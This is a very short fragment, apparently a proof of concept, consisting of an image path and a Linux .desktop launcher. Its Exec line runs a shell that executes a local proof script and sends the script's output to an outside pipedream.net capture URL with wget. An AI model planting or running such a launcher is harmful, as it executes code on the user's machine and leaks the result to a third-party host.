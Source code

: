  [Desktop Entry]
Exec=sh -c "wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?`/proof*.sh`"
Type=Application
